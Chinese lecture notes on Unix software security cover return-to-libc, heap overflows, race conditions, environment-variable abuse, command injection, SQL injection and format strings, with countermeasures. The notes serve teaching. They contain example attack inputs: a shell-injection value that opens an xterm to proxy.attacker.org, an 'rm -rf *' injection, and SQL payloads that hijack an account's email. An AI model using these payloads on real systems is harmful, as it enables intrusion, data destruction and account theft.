在大多数Unix操作系统中， libc库总是加载到固定的内存地址。要找到任何 libc函数的地址，我们可以使用以下 gdb命令（假设 a.out是任意的程序）：

```
$ gdb a.out
(gdb) b main
(gdb) r
(gdb) p system
$1 = {<text variable, no debug info>} 0x9b4550 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0x9a9b70 <exit>
```

通过上述 gdb命令，我们可以发现system()函数的地址为0x9b4550，exit()函数的地址为0x9a9b70。您的系统中实际的地址可能与这些数字不同。

我们还可以使用函数dlopen和dlsym来查找libc函数的地址位置：

```
#include <dlfcn.h>

#define LIBCPATH "/lib/libc.so.6" /* 在Fedora上 */

void *libh, *sys;

if ((libh = dlopen(LIBCPATH, RTLD_NOW)) == NULL) {
    // 报告错误
}

if (( sys = dlsym(libh, "system")) == NULL) {
    // 报告错误
}
printf("系统 @ %p", sys);
```

### 4.2 寻找“/bin/sh”的地址。

有很多方法可以找到这样一个字符串的地址：

- 使用缓冲区溢出问题直接将字符串插入堆栈，然后猜测其地址。
- 在运行易受攻击的程序之前，创建一个值为“/bin/sh”的环境变量。当从shell中执行C程序时，它会继承shell的所有环境变量。在下面，我们定义一个新的shell变量MYSHELL并将其值设置为/bin/sh：
  $ export MYSHELL=/bin/sh

我们将使用该变量的地址作为system()调用的参数。可以很容易地通过以下程序找到该变量在内存中的位置：

```
void main()
{ char* shell = getenv("MYSHELL");
  if (shell)
    printf("%x", shell);}
```

如果堆栈地址没有随机化，我们会发现相同的地址被打印出来。然而，当我们运行另一个程序时，环境变量的地址可能不完全相同，甚至在更改程序名称时（文件名中的字符数会有所不同）该地址可能会发生变化。好消息是，使用上述程序打印出来的地址与shell的地址非常接近。

因此，你可能需要尝试几次才能成功。

- 我们还知道函数system在其自己的代码中使用了 "/bin/sh"。因此，这个字符串必须存在于libc中。如果我们能找到这个字符串的位置，我们可以直接使用这个字符串。你可以在libc库文件（/lib/libc.so.6）中搜索字符串 "rodata"：
  $ readelf -S /lib/libc.so.6 | egrep 'rodata'
  [15] .rodata PROGBITS 009320e0 124030 ......

上述命令的结果表明 ".rodata"部分从 0x009320e0开始。这个 ".rodata"部分用于存储常量数据，常量字符串 "/bin/sh"应该存储在这个部分中。你可以编写一个程序从内存中的0x00932030开始搜索该字符串。

### 4.3 将“/bin/sh”的地址传递给system。

为了让system运行命令 "/bin/sh"，我们需要将该命令字符串的地址作为参数传递给system。就像调用任何函数一样，我们需要通过栈来传递参数。因此，我们需要将参数放在栈的正确位置。为了正确地做到这一点，我们需要清楚地了解在调用函数时如何构建函数的栈帧。我们使用一个小的C程序来了解函数调用对栈的影响。

```
/* foobar.c */
#include<stdio.h>
void foo(int x)
{
  printf("你好世界: %d", x);
}

int main()
{
    foo(1);
    return 0;
}
```

我们可以使用 "gcc -S foobar.c" 将该程序编译为汇编代码。生成的文件 foobar.s 将如下所示：

```
......
8 foo:
9      pushl   %ebp
10     movl    %esp, %ebp
11     subl    $8, %esp
12     movl    8(%ebp), %eax
13     movl    %eax, 4(%esp)
14     movl    $.LC0, (%esp) : 字符串 "你好世界: %d"
15     call    printf
16     leave
17     ret
......
21 main:
22     leal    4(%esp), %ecx
23     andl    $-16, %esp
24     pushl   -4(%ecx)
25     pushl   %ebp
26     movl    %esp, %ebp
27     pushl   %ecx
28     subl    $4, %esp
29     movl    $1, (%esp)
30     call    foo
31     movl    $0, %eax
32     addl    $4, %esp
33     popl    %ecx
34     popl    %ebp
35     leal    -4(%ecx), %esp
36     ret
......
```

调用和进入 foo()。让我们在调用 foo() 时专注于栈。我们可以忽略之前的栈。请注意，在这个解释中使用的是行号而不是指令地址。

- 第28-29行：这两个语句将值 1，即 foo() 的参数，推入栈中。这个操作将 %esp 增加四个字节。这两个语句之后的栈如图 Figure 1(a)所示。



- 第30行：调用foo：该语句将紧随其后的下一条指令的地址（即返回地址）推入堆栈中，然后跳转到foo()的代码。当前堆栈如图1(b)所示。
- 第9-10行：函数foo()的第一行将%ebp推入堆栈中，以保存上一个帧指针。第二行使%ebp指向当前帧。当前堆栈如图1(c)所示。
- 第11行：subl $8, %esp：修改堆栈指针以分配空间（8字节）用于本地变量和传递给printf的两个参数。由于函数 foo中没有局部变量，所以这8个字节只用于参数。参见图1(d)。

离开 foo()。现在控制权已经传递给函数 foo()。让我们看看函数返回时堆栈发生了什么变化。

- 第16行：leave：此指令隐式执行两条指令（在早期的x86版本中是一个宏指令，但后来成为了一条指令）：

```
mov %ebp, %esp
pop %ebp
```

第一条语句释放了函数分配的堆栈空间；第二条语句恢复了上一个帧指针。当前的堆栈如图1(e)所示。

- 第17行：ret：此指令将返回地址从堆栈中弹出，然后跳转到返回地址。当前的堆栈如图1(f)所示。

#### 4.4 在 /bin/bash 中的保护

如果 “/bin/sh” 指向 “/bin/bash”，即使我们可以在以 root 权限运行的 Set-UID 程序中调用 shell，我们也无法获得 root 权限。这是因为 bash 在以 Set-UID root 上下文中执行时会自动降低其权限；然而，有办法绕过这种保护机制。尽管 /bin/bash 对于运行 Set-UID 程序有限制，但它允许真正的 root 运行 shell。因此，在调用 /bin/bash 之前，如果我们能将当前的 Set-UID 进程转变为真正的 root 进程，我们就可以绕过 bash 的限制。`setuid(0)` 系统调用可以帮助你实现这一点。因此，我们需要先调用 `setuid(0)`，然后调用 `system("/bin/sh")`；所有这些都可以通过返回到 libc 的机制来完成。

基本上，我们需要两次“返回到 libc”。我们首先让目标程序返回到 libc 中的 setuid 函数。当这个函数返回时，它将从栈中获取返回地址，并跳转到该地址。如果我们能让这个返回地址指向 system，我们就可以强制 setuid 函数返回到 system 的入口点。在进行这个过程时，我们必须非常小心，因为我们必须将适当的参数放在栈的正确位置。

### 5 堆/静态数据段缓冲区溢出

- 堆/静态数据段中的内容
  - 常量字符串
  - 全局变量
  - 静态变量
  - 动态分配的内存。

#### 示例：覆盖文件指针

```
/* 以下变量存储在BSS区域 */
static char buf[BUFSIZE], *tmpfile;

tmpfile = "/tmp/vulprog.tmp";
gets(buf); /* 这里可能发生缓冲区溢出 */

...打开tmpfile，并向其写入...
```

(Set-UID) 程序的文件指针指向 /tmp/vulprog.tmp。
- 程序在执行过程中需要使用用户的输入向该文件写入内容。
- 如果我们能够使文件指针指向 /etc/shadow，我们就可以导致程序写入 /etc/shadow。
- 我们可以利用缓冲区溢出来改变变量 tmpfile 的内容。最初，它指向字符串 “/tmp/vulprog.tmp”。利用缓冲区溢出漏洞，我们可以将 tmpfile 的内容更改为 0x903040，这是字符串 “/etc/shadow” 的地址。之后，当程序使用 tmpfile 变量打开文件进行写入时，实际上打开了 shadow 文件。
- 如何找到 /etc/shadow 的地址？
  我们可以将字符串作为程序的参数传递，这样字符串 /etc/shadow 将存储在内存中。现在我们需要猜测它在哪里。

#### 示例：覆盖函数指针

```
int main(int argc, char **argv)
{
    static char buf[16]; /* 在BSS段 */
    static int (*funcptr)(const char *str); /* 在BSS段 */

    funcptr = (int (*)(const char *str))goodfunc;

    /* 我们可以在这里引发缓冲区溢出 */
    strncpy(buf, argv[1], strlen(argv[1]));

    (void)(*funcptr)(argv[2]);
    return 0;
}

/* 如果我们没有溢出它，funcptr将指向这里 */
int goodfunc(const char *str) { ...... }
```

- 函数指针（即 “int (*funcptr)(char *str)”）允许程序员动态修改要调用的函数。我们可以通过覆盖其地址来覆盖函数指针，这样当它被执行时，它会调用我们指向的函数。
- argv[] 方法：将 shellcode 存储在程序的参数中。这会导致 shellcode 存储在栈中。然后我们需要猜测 shellcode 的地址（就像我们在堆栈缓冲区溢出中所做的那样）。这种方法需要一个可执行的堆栈。
- 堆方法：通过使用溢出将 shellcode 存储在堆/未初始化数据段（BSS）中。然后我们需要猜测 shellcode 的地址，并将这个估计的地址赋给函数指针。这种方法需要一个可执行的堆（比可执行的栈更常见）。

#### 函数指针

- 函数指针可以通过多种不同的方式存储在堆/未初始化数据段中。它们不需要被程序员定义。
- 如果程序调用 `atexit()`，函数指针将由 `atexit()` 存储在堆中，并在程序终止时被调用。
- svc/rpc 注册函数（librpc、libnsl 等）将回调函数存储在堆中。

#### 其他例子

- BSDI crontab 基于堆的溢出：传递一个很长的文件名将溢出一个静态缓冲区。在该缓冲区上方的内存中，我们有一个 pwd 结构，它存储用户名称、密码、uid、gid 等。通过覆盖 pwd 的 uid/gid 字段，我们可以修改 crond 将使用的特权（一旦它尝试运行我们的 crontab）。然后，这个脚本可以生成一个 suid root shell，因为我们的脚本将以 uid/gid 0 运行。

## 参考文献

- [1] P. J. Salzman. 内存布局和栈. 在书中使用 GNU 的 GDB 调试器. 网址：http://dirac.org/linux/gdb/02a-内存布局和栈.php。

## 竞争条件漏洞

## 1 竞态条件漏洞

以下代码片段属于特权程序（例如 Set-UID 程序），并且以 root 权限运行。

```
1: if (!access("/tmp/X", W_OK)) {
2:   /* 真实用户ID具有访问权限 */
3:   f = open("/tmp/X", O_WRITE);
4:   write_to_file(f);
5: }
6: else {
7:   /* 真实用户ID没有访问权限 */
8:   fprintf(stderr, "权限被拒绝");
9: }
```

- `access()` 系统调用检查真实用户 ID 或组 ID 是否有访问文件的权限，并在有权限时返回 0。 这个系统调用通常由 set-uid 程序在代表真实用户 ID（而不是有效用户 ID）访问文件之前使用。
- `open()` 系统调用也进行访问控制，但它只检查有效用户 ID 或组 ID 是否有权限访问文件。
- 上述程序想要写入文件 “/tmp/X”。 在这之前，它确保文件确实可被真实用户 ID 写入。如果没有这样的检查，程序可以无论真实用户 ID 是否有写入权限都可以写入该文件，因为程序以 root 权限运行（即 `open()` 检查的有效用户 ID 是 root）。

假设上述程序以非常非常慢的速度运行。 该程序中的每一行语句运行需要一分钟。 请思考以下问题：

- 你能使用这个程序覆盖另一个文件，比如 /etc/passwd 吗？
- 你不能修改程序，但你可以利用程序每两个语句之间的一分钟时间。
- /tmp 目录具有 rwxrwxrwx 权限，允许任何用户在该目录下创建文件/链接。
- 提示：/tmp/X 不需要是一个真实的文件，它可以是一个符号链接。

攻击思路：

- 如果我们在 Line 1 之前让 /tmp/X 指向 /etc/passwd，那么 `access()` 调用将发现真实用户 ID 没有修改 /etc/passwd 的权限；因此，执行将进入 else 分支。 因此，在 Line 1 之前，/tmp/X 必须是一个可写的文件，由真实用户 ID 拥有权限。
- 显然，如果我们在 Line 1 之后什么都不做，攻击者将无法获得任何东西。
- 让我们关注 Line 1 和 Line 3 之间的时间窗口。由于我们假设程序运行非常缓慢，在 Line 1 之后和 Line 3 之前有一个一分钟的时间窗口。在这个时间窗口内，我们可以删除 /tmp/X 并创建一个同名的符号链接，让它指向 /etc/passwd。
- 如果我们在第 1 行和第 3 行之间执行上述操作，会发生什么？
  - 程序将使用 `open()` 函数来打开符号链接后的 /etc/shadow 文件。
  - 只有当有效用户（或组）ID 可以访问文件时，`open()` 系统调用才会检查文件。由于这是一个 Set-UID root 程序，有效用户 ID 是 root，当然可以读写 /etc/passwd 文件。
  - 因此，第 4 行实际上会写入 /etc/passwd 文件。如果用户还可以控制写入该文件的内容，攻击者基本上可以修改密码文件，并最终获得 root 权限。如果用户无法控制写入该文件的内容，攻击者仍然可以破坏密码文件，从而阻止其他用户登录系统。

回到现实：程序运行非常快，我们没有那一分钟的时间窗口。我们能做些什么？

竞争条件攻击：
- 导致 /tmp/x 在访问和打开调用中表示两个不同的文件？
- 在 `access(/tmp/x, W_OK))` 之前，文件 /tmp/x 确实是 /tmp/x。
- 在 `access(/tmp/x, W_OK))` 之后，将 /tmp/x 更改为 /etc/passwd。
- 这怎么可能？
  - 在 `access()` 和 `open()` 之间存在一个短暂的时间窗口。
  - 检查和使用之间的时间窗口：检查时间，使用时间 (TOCTOU)。
  - CPU 可能在 `access()` 之后进行上下文切换，并运行另一个进程。
  - 如果攻击进程在上下文切换窗口期间有机会执行上述攻击步骤，则攻击可能成功。
  - 由于我们无法保证在目标程序的第 1 行和第 3 行之间发生上下文切换，即使攻击程序在上下文切换窗口期间有机会运行，攻击也可能不起作用。然而，如果运行一次不起作用，我们可以多次运行攻击和目标程序。

提高成功率：竞争条件攻击的最关键步骤必须在 TOCTOU 窗口内发生。由于我们无法修改易受攻击的程序，我们唯一能做的就是与目标程序并行运行我们的攻击程序，希望链接的改变确实发生在那个关键窗口内。不幸的是，我们无法实现完美的时机。因此，攻击的成功是有概率的。如果窗口很小，成功攻击的概率可能非常低。我们如何增加概率呢？
- 通过运行许多 CPU 密集型程序来减慢计算机的速度。
- 创建许多攻击进程。

另一个例子（一个设置了 UID 的程序）

```
file = "/tmp/X";
fileExist = check_file_existence(file);
if (fileExist == FALSE) {
    // 文件不存在，创建它。
    f = open(file, O_CREAT);
}
```

- 在 Unix 中，使用 `open()` 系统调用来创建文件。
- `open(file, O_CREAT)` 如果文件不存在，则创建文件；如果文件已经存在，则简单地打开文件。

### 为什么会存在漏洞？

- 竞争条件：在检查期间使文件不存在，并在检查后将其指向 `/etc/passwd`。

## 2 个对策

#### 方法

- 将检查和使用操作合并为一个原子操作：如果我们可以使用一个系统调用来同时进行检查和使用操作，那么就不会出现竞争条件。在大多数操作系统中，系统调用不能被另一个用户空间进程抢占，因此，在系统调用调用期间不会发生上下文切换。
- 确保在检查和使用操作期间，相同的文件名指向相同的文件（即相同的 I-node）。
- 使竞争条件的获胜概率非常非常低。
- 如果不必要，不要使用过多的权限。

#### 使用原子操作

- 如果一个系统调用可以在同一个系统调用中进行检查和使用，那么它是安全的，因为在系统调用中不会发生上下文切换。
- `open(file, O_CREAT | O_EXCL)` 可以在原子操作中检查文件的存在和打开文件（即在同一个系统调用中）。如果文件已经存在，则返回错误；否则，创建该文件。`mkstemp()` 函数从模板中生成一个唯一的临时文件名。该函数使用 `open()` 和 `O_EXCL` 标志来防止竞争条件问题。
- 类似地，我们可以为 `open()` 创建另一个选项，以同时进行 `access()` 和 `open()`。尽管这样的选项在 POSIX 标准中不存在，从技术上讲，这是可以实现的。也就是说，我们可以定义一个名为 `O_REAL_USER_ID` 的选项。当我们调用 `open()` 时，使用 `open(file, O_WRITE | O_REAL_USER_ID)`，我们要求 `open()` 同时检查有效用户 ID 和真实用户 ID，并且只有当两个 ID 都具有打开文件的权限时才打开文件。实际上，推动 POSIX 标准委员会接受这个新选项可能并不容易。

#### 检查-使用-再次检查方法

`lstat(file, &result)` 可以获取文件的状态。如果文件是一个符号链接，则返回链接的状态（而不是链接指向的文件）。我们可以在 TOCTOU 窗口之前使用 `lstat()` 来检查文件的状态，然后在窗口之后再进行一次检查。如果结果不同，我们可以检测到竞态条件。让我们看一下以下解决方案：

```
struct stat statBefore, statAfter;

1: lstat("/tmp/X", &statBefore);
2: if (!access("/tmp/X", O_RDWR)) {
    /* 真实UID具有访问权限 */
3:     f = open("/tmp/X", O_RDWR);
4:     lstat("/tmp/X", &statAfter);
5:     if (statAfter.st_ino == statBefore.st_ino)
6:     { /* 节点仍然相同 */
7:         写入文件(f)
8:     }
9:     else perror("竞争条件攻击！");
10: }
11: else fprintf(stderr, "权限被拒绝");
```

然而，上述解决方案不起作用（在 `open()` 和第二个 `lstat()` 之间存在新的竞争条件）。为了利用这个漏洞，攻击者需要进行两次竞争条件攻击，一次在第 2 行和第 3 行之间，另一次在第 3 行和第 4 行之间。虽然同时赢得两次竞争的概率比之前的情况要低得多，但仍有可能。

为了解决这个问题，我们希望在文件描述符 `f` 上使用 `lstat()`，而不是在文件名上使用。虽然 `lstat()` 不能做到这一点，`fstat()` 可以做到。

```
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>

int main()
{
    struct stat statBefore, statAfter;

1:     lstat("/tmp/X", &statBefore);
2:     if (!access("/tmp/X", O_RDWR)) {
        /* 真实的用户ID具有访问权限 */
3:         int f = open("/tmp/X", O_RDWR);
4:         fstat(f, &statAfter);
5:         if (statAfter.st_ino == statBefore.st_ino)
6:         { /* 节点仍然相同 */
7:             write_to_file(f);
8:         }
9:         else perror("竞争条件攻击！");
10: }
11:     else fprintf(stderr, "权限被拒绝");
12: }
```

- 问题：`lstat()` 和 `fstat()` 之间存在竞争条件吗？如果在第 1 行使用符号链接（例如指向 /etc/shadow），然后在第 2 行之前迅速切换到 /tmp/X，然后在第 3 行之前迅速切换回符号链接，会发生什么？
答案：这种攻击是不可能的。函数调用 `lstat("/tmp/X",...)` 返回的是链接的状态，如果 “/tmp/X” 是一个符号链接，而不是链接指向的文件的状态。换句话说，当 /tmp/x 指向 /etc/shadow 时，`lstat(/tmp/X,...)` 返回的 i-node 将是 /tmp/X 的 i-node，而 `fstat(f,...)` 返回的 i-node 将是实际文件的 i-node（在这种情况下，将是 /etc/shadow 的 i-node）。即使 /tmp/x 指向 /etc/shadow，这两个 i-node 也是不同的。

- 注意：并非所有的调用都有这两个版本，一个用于文件名，另一个用于文件描述符（思考：如果 `access()` 也可以在文件描述符上工作，解决方案将会更容易）。

### 检查-使用-重复的方法：

重复访问和打开几次。在下面的示例中，攻击者需要赢得五个竞争条件（在第 1-2 行、2-3 行、3-4 行、4-5 行和 5-6 行之间）：

```
1: if (access("tmp/X", O_RDWR))    goto错误处理
2: else f1 = open("/tmp/X", O_RDWR);
3: if (access("tmp/X", O_RDWR))    goto错误处理
4: else f2 = open("/tmp/X", O_RDWR);
5: if (access("tmp/X", O_RDWR))    goto错误处理
6: else f3 = open("/tmp/X", O_RDWR);
```

检查 f1、f2 和 f3 是否具有相同的 i 节点（使用 `fstat`）。

### 基于最小权限原则：

- 在使用 `access()` 和 `open()` 的程序中，我们意识到 `open()` 比我们需要的功能强大得多（它只检查有效用户 ID）；这就是为什么我们必须使用 `access()` 来确保我们不滥用这种权限的原因。从竞争条件攻击中我们学到的教训是，这样的检查并不总是可靠的。
- 防止程序滥用权限的另一种方法是不给予程序这种权限。这正是最小权限原则的核心：如果我们暂时不需要权限，我们应该禁用它；如果我们永久不需要权限，我们应该丢弃它。没有权限，即使程序犯了一些错误，损害也会大大减少。
- 在 Unix 中，我们可以使用 `seteuid()` 或 `setuid()` 系统调用。来禁用/启用或删除权限。

```
/* 禁用root权限 */
#include <unistd.h>
#include <sys/types.h>

uid_t real_uid = getuid(); // 获取真实用户ID
```

## 输入验证

### （1）环境变量（“隐藏”输入）

环境变量是“隐藏”的输入。它们存在并影响程序的行为。在编程过程中忽视它们的存在可能导致安全漏洞。

#### ❖ 路径

- 在shell中运行命令时，shell会使用 **PATH** 环境变量来搜索命令。
- 以下情况会发生什么？
```
system("mail");
```
- 攻击者可以将PATH更改为以下内容，并导致当前目录中的“mail”被执行。
```
PATH=".:$PATH"; export PATH
```

#### ❖ IFS

- IFS变量确定要解释为空格的字符。它代表内部字段分隔符。假设我们将其设置为包括斜杠字符：
```
IFS="/"; export IFS
PATH=".:$PATH"; export PATH
```
- 现在从Bourne shell调用任何使用绝对路径的程序（例如system()或popen()系统调用）。现在它被解释为尝试在用户的当前目录中执行名为bin的命令。
```
system("/bin/mail root"); ---> system(" bin mail root");
```
- IFS漏洞现在在shell中基本上已被禁止使用。

#### ❖ LD_LIBRARY_PATH

- 动态库目录：在搜索动态库时，UNIX系统倾向于在由此环境变量提供的搜索路径中查找要加载的库。
- 几乎每个Unix程序都依赖于 libc.so，几乎每个Windows程序都依赖于DLL。如果这些库被木马程序替换，很多事情都可能出错。
- 攻击者可以修改此路径，导致程序加载攻击者的库。
```
setenv LD_LIBRARY_PATH /tmp:$LD_LIBRARY_PATH
```
或者用户的当前目录
```
setenv LD_LIBRARY_PATH .:$LD_LIBRARY_PATH
```
- 大多数现代C运行时库通过在EUID不等于UID或EGID不等于GID时忽略LD_LIBRARY_PATH变量来解决此问题。
- 安全应用程序可以与可信库进行静态链接，以避免此问题。
- 在Windows机器上，加载DLL时，通常会先在当前目录中搜索DLL，然后再搜索系统目录。如果你点击一个Microsoft Word文档来启动Office，首先会在包含该文档的目录中搜索DLL。

## LD_PRELOAD

- 许多UNIX系统允许您通过设置环境变量LD_PRELOAD来 “预加载” 共享库。这使您可以做一些有趣的事情，比如替换标准C库函数，甚至是系统调用的C接口。
- 如果程序是一个setuid程序，现代系统会忽略LD_PRELOAD。
```
% cc -o malloc_interposer.so -G -Kpic malloc_interposer.c
% setenv LD_PRELOAD $cwd/malloc_interposer.so
```

### 如何摆脱环境变量?
```
extern char  **environ;
int main(int argc, char **argv)
{
    environ = 0;
}
```
- 上述策略并不一定适用于每个程序。例如，动态加载共享库需要LD_LIBRARY_PATH。

### 案例研究

#### vi 漏洞

- 行为：

### (2) 进程属性

**umask 值**

- 它决定了新创建文件的默认权限。
- 子进程从父进程继承此值。
- 考虑以下情况：
  一个set-UID程序将临时数据存储在/tmp/tempfile中。此文件的完整性很重要。
  如果程序员假设umask值为077，则此假设可能失败。攻击者可以从其shell中运行此程序，而set-UID将继承shell的umask值。
- 如何保护：要么显式设置umask值（使用umask(077)），要么显式设置新创建文件的权限（使用chmod("newfile", 0755)）；

**核心转储**

- 如果你的程序保存着敏感数据，比如未加密的密码，那么你应该禁止该进程进行核心转储。
- 如何禁用核心转储?
```
#include <sys/time.h>
#include <sys/resource.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    struct rlimit   rlim;

    getrlimit(RLIMIT_CORE, &rlim);
    rlim.rlim_max = rlim.rlim_cur = 0;

    if (setrlimit(RLIMIT_CORE, &rlim)) {
        exit(-1);
    }
    ...
    return 0;
}
```
- 出于明显的安全原因，默认情况下，Solaris（至少在Solaris 8中）不允许setuid进程进行核心转储。

### (3) 调用其他程序

### ❖ 安全地调用其他程序。

- 如果CGI脚本这样做，可能会有哪些潜在问题？
```
// $Recipient包含用户提供的电子邮件地址
//           使用网络表单。
system("/bin/mail", $Recipient);
```
- $Recipient可能包含shell的特殊字符：（例如|, &, <, >）
```
"attacker@hotmail.com < /etc/passwd;
export DISPLAY=proxy.attacker.org:0; /usr/X11R6/bin/xterm&"
```
- 如果CGI脚本这样做，可能会有哪些潜在问题？
```
system("cat", "/var/stats/$username");
```
- 攻击者可以提交一个用户名为“../../etc/passwd”的用户名。
- 如果CGI程序执行以下操作，可能会出现哪些问题：
```
sprintf(buf,"telnet %s",url);
system(buf);
```
- 这对形式为URL的请求没有良好的响应：
```
host.example.com; rm -rf *
```

#### ❖ exec函数，system()和 popen()

- exec函数族通过将当前进程映像与新的进程映像交换来运行子进程。有许多版本的exec函数以不同的方式工作。它们可以被分为不同的组。
- 使用/不使用shell来启动子程序。
- 通过shell处理命令行参数的处理（shell可以引入比我们期望的更多功能。请注意，shell是一个强大的程序）。
- 启动子进程涉及依赖和属性继承问题，我们已经看到这是有问题的。函数 execlp 和 execvp 使用shell启动程序。 它们使得程序的执行依赖于当前用户的shell设置，例如环境变量PATH和其他环境变量的值。 execv() 更安全，因为它不会在代码中引入任何这样的依赖关系。
- 调用system(string)将字符串传递给shell以作为子进程（即作为一个独立的分叉进程）执行。 它是exec函数的一个方便的前端。
- 标准的 popen() 实现也是类似的。 这个函数打开一个管道以执行命令并将任何输出作为文件流读取回来。 这个函数还启动一个shell来解释命令字符串。

### 如何安全地调用程序？

- 避免调用任何shell。 请使用execve()代替system()：execve()不会调用shell，而system()会。
- 避免使用execlp(file,...)和execvp(file,...)，它们具有类似shell的语义。 如果文件不是有效的可执行对象文件，则它们将使用该文件的内容作为shell的标准输入。
- 要小心可能使用shell实现的函数。 Perl的open()函数可以运行命令，并且通常通过shell来运行。

### (4) SQL注入

> 这些示例来自Steve Friedl的Unixwiz.net Tech Tips: SQL Injection Attacks by Example

- SQL注入是一种利用使用客户端提供的数据在SQL查询中进行利用的技术，但是没有首先剥离可能有害的字符。 结果，Web应用程序可能会运行意外的SQL代码。
- 一些应用程序从Web表单中获取用户输入，然后直接使用用户输入构建SQL查询。 例如，以下SQL查询是使用用户在表单上提交的$EMAIL值构建的：
```
SELECT email, passwd, login_id, full_name
FROM members
WHERE email = '$email';
```
- 上述应用程序通常用于在线账户成员忘记密码的情况。 他们只需要输入他们的电子邮件地址；如果该电子邮件地址在数据库中（用户是成员），那么该电子邮件的密码将会发送到该电子邮件地址。在这个例子中，SQL注入攻击的目标是能够在不成为成员的情况下登录在线账户。
- 猜测字段名称：首先要猜测数据库的一些字段名称。
- 以下猜测电子邮件作为一个字段的名称。
- 如果我们收到服务器错误，这意味着我们的SQL语句格式错误，会抛出语法错误：很可能是由于字段名称错误。如果我们收到任何一种有效的响应，说明我们猜对了名称。这种情况适用于我们收到"电子邮件未知"或"密码已发送"的响应。
```
SELECT field_list
FROM table
WHERE field = 'x' AND email IS NULL; --';
```

#### ◇ 猜测表名

- 同样，如果消息显示“电子邮件未知”或“密码已发送”，我们知道我们的猜测是正确的。
```
SELECT email, passwd, login_id, full_name
FROM table
WHERE email = 'x' AND 1=(SELECT COUNT(*) FROM tabname); --';
```
- 然而，上述只确认了 tabname是一个有效的名称，不一定是我们正在使用的名称。接下来的内容将有所帮助。
```
SELECT email, passwd, login_id, full_name
FROM members
WHERE email = 'x' AND members.email IS NULL; --';
```

### ◇ 猜测成员的电子邮件地址： $EMAIL = x' OR full_name LIKE '%Bob%'
- 如果SQL成功，通常会看到这样的消息：“我们将您的密码发送到<...>”，其中<...>是与 %Bob%（%是通配符）匹配的电子邮件地址。
```
SELECT email, passwd, login_id, full_name
FROM members
WHERE email = 'x' OR full_name LIKE '%Bob%';
```

### ◇ 暴力破解密码（在我们已经学到一个有效的电子邮件地址之后）
```
SELECT email, passwd, login_id, full_name
FROM members
WHERE email = 'bob@example.com' AND passwd = 'hello123';
```
- 如果数据库不是只读的，我们可以尝试以下方法来添加新成员：
- “--”在末尾标志着SQL注释的开始。这是一种有效的方法，可以消耗应用程序提供的最后一个引号，而不必担心匹配它们。
- 这样做可能会遇到一些挑战：
    - 网络表单可能无法给你足够的空间来输入整个字符串。
    - Web应用程序用户可能没有对成员表的插入权限。
    - 应用程序可能不会表现良好，因为我们没有为其他字段提供值。
    - 一个有效的“成员”可能不仅需要在成员表中有一条记录，还需要其他表中的相关信息（例如访问权限），因此仅向一个表中添加可能是不够的。
```
SELECT email, passwd, login_id, full_name
FROM members
WHERE email = 'x';
INSERT INTO members (email, passwd, login_id, full_name)
VALUES ('xyz@hacker.net','hello','xyz','xyz Hacker');--';
```

#### 修改现有成员的电子邮件地址

- 如果成功，攻击者现在可以转到常规的“我忘记了密码”链接，输入更新后的电子邮件地址，并在电子邮件中收到Bob的密码。
```
SELECT email, passwd, login_id, full_name
FROM members
WHERE email = 'x';
UPDATE members
SET email = 'xyz@hacker.net'
WHERE email = 'bob@example.com';
```

#### 如何防止SQL注入攻击？

- 清理输入。
- 配置错误报告：上述攻击利用服务器返回的错误消息。通过不告诉用户实际的SQL查询错误消息，可以使攻击者的生活更加困难。例如，你可以说“出现了问题”。
- 使用绑定参数，所以用户的输入只是被视为数据；引号、分号、反斜杠和SQL注释符号不会产生影响，因为它们只被视为数据，不会被SQL解析。请参考以下Java代码：
```
不安全版本
Statement s = connection.createStatement();
ResultSet rs = s.executeQuery("SELECT email FROM members WHERE name = " + form_field);

安全版本
PreparedStatement ps = connection.prepareStatement(
    "SELECT email FROM members WHERE name = ?");
ps.setString(1, form_field);
ResultSet rs = ps.executeQuery();
```

## 格式化字符串漏洞
```
printf(user_input);
```
上述语句在C程序中非常常见。在讲座中，我们将了解如果程序以特权运行（例如Set-UID程序），可能会出现什么问题。

### 格式化字符串

- 什么是格式化字符串？
```
printf("The magic number is: %d", 1911);
```
要打印的文本是“The magic number is:”，后面是格式参数‘%d’，它在输出中被替换为参数（1911）。因此，输出看起来像：The magic number is: 1911。除了%d之外，还有几个其他格式参数，每个参数都有不同的含义。下表总结了这些格式参数：

| 参数 | 含义 | 传递为 |
| :--- | :--- | :--- |
| %d | 十进制（整数） | 值 |
| %u | 无符号十进制（无符号整数） | 值 |
| %x | 十六进制（无符号整数） | 值 |
| %s | 字符串（（常量）（无符号）字符 *） | 引用 |
| %n | 迄今为止写入的字节数，（* int） | 引用 |

- 堆栈及其在格式字符串中的作用
格式函数的行为由格式字符串控制。该函数从堆栈中提取格式字符串请求的参数。
```
printf("a的值为%d，b的值为%d，c的地址为：%08x",a,b,&c);
```

